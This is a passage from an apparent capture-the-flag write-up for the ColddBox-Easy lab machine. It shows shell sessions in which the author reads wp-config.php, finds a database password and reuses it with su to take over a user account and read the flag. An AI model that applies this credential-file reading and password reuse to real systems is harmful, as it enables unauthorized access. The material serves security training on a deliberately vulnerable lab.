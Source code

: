 ```
www-data@ColddBox-Easy:/$ ls
ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@ColddBox-Easy:/$ cd /home
cd /home
www-data@ColddBox-Easy:/home$ ls
ls
c0ldd
www-data@ColddBox-Easy:/home$ cd c0ldd
cd c0ldd
www-data@ColddBox-Easy:/home/c0ldd$ ls
ls
user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
Be disappointed!

Enumerate more...Remember to always check php config code! 

Back to /var/www/html look for config files

```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
cat wp-config.php

...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

...

```
Take some pride

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html$ cat /home/c0ldd/user.txt
cat /home/c0ldd/user.txt
c2lrZSEgdGhhdCdzIHRoZSB3cm9uZyBmbGFnIQ==
```
